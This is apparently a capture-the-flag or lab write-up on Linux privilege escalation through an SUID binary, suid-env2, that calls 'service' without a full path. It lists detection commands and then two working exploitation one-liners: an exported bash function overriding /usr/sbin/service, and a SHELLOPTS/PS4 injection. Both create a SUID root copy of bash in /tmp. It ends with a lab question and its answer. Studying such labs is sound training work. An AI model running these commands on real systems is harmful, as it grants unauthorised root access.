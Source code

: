 **Detection**

  

Linux VM

  

1. In command prompt type: 
   
```
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20240602231936.png]]

2. From the output, make note of all the SUID binaries.

3. In command prompt type: 
   
```
strings /usr/local/bin/suid-env2
```

![[Pasted image 20240602232006.png]]


4. From the output, notice the functions used by the binary.
  

**Exploitation Method #1**

Linux VM

1. In command prompt type:

```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```

2. In command prompt type:

```
export -f /usr/sbin/service
```

3. In command prompt type: 

```
/usr/local/bin/suid-env2
```

![[Pasted image 20240602232043.png]]


**Exploitation Method #2**

Linux VM

1. In command prompt type:

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

![[Pasted image 20240602232253.png]]


Answer the questions below

| Question                                                                | Answer                          |
| ----------------------------------------------------------------------- | ------------------------------- |
| What is the last line of the "strings /usr/local/bin/suid-env2" output? | /usr/sbin/service apache2 start |
